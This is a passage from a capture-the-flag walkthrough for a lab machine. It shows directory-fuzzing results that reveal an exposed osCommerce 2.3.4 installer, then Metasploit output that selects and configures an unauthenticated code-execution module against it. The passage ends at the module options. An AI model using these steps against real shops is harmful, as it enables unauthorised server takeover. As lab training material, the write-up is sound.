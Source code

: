   ```
  Install                 [Status: 301, Size: 369, Words: 22, Lines: 10, Duration: 1210ms]
  *docroot*               [Status: 403, Size: 1044, Words: 102, Lines: 43, Duration: 92ms]
  DOWNLOAD                [Status: 401, Size: 1319, Words: 145, Lines: 48, Duration: 474ms]
  *                       [Status: 403, Size: 1044, Words: 102, Lines: 43, Duration: 2786ms]
  con                     [Status: 403, Size: 1044, Words: 102, Lines: 43, Duration: 2237ms]
  http%3A                 [Status: 403, Size: 1044, Words: 102, Lines: 43, Duration: 556ms]
  Includes                [Status: 301, Size: 370, Words: 22, Lines: 10, Duration: 154ms]
  **http%3a               [Status: 403, Size: 1044, Words: 102, Lines: 43, Duration: 2493ms]
  aux                     [Status: 403, Size: 1044, Words: 102, Lines: 43, Duration: 643ms]
  *http%3A                [Status: 403, Size: 1044, Words: 102, Lines: 43, Duration: 225ms]
  ```
  
- I canceled it because it took soooo long, thankfully this was enough to finish the CTF. When you visit `http://10.10.10.69:8080/oscommerce-2.3.4/catalog/install/`, you will find a oscommerce version. So yeah, it was enough.

   ```Welcome to osCommerce Online Merchant v2.3.4!```
  
- So when it comes to Windows, Metasploit is your best friend so let's check it out.

---

## ⚙️ Shell Access

- Start Metasploit and search for oscommerce.

  ```
  msf6 > search oscommerce

  Matching Modules
  ================
  
     #  Name                                                      Disclosure Date  Rank       Check  Description
     -  ----                                                      ---------------  ----       -----  -----------
     0  exploit/unix/webapp/oscommerce_filemanager                2009-08-31       excellent  No     osCommerce 2.2 Arbitrary PHP Code Execution
     1  exploit/multi/http/oscommerce_installer_unauth_code_exec  2018-04-30       excellent  Yes    osCommerce Installer Unauthenticated Code Execution
  ```
  
- Perfect, this is the one that we need `exploit/multi/http/oscommerce_installer_unauth_code_exec` so let's check it.

  ```
  msf6 exploit(multi/http/oscommerce_installer_unauth_code_exec) > show options

  Module options (exploit/multi/http/oscommerce_installer_unauth_code_exec):
  
     Name     Current Setting    Required  Description
     ----     ---------------    --------  -----------
     Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
     RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/
                                           basics/using-metasploit.html
     RPORT    80                 yes       The target port (TCP)
     SSL      false              no        Negotiate SSL/TLS for outgoing connections
     URI      /catalog/install/  yes       The path to the install directory
     VHOST                       no        HTTP server virtual host
  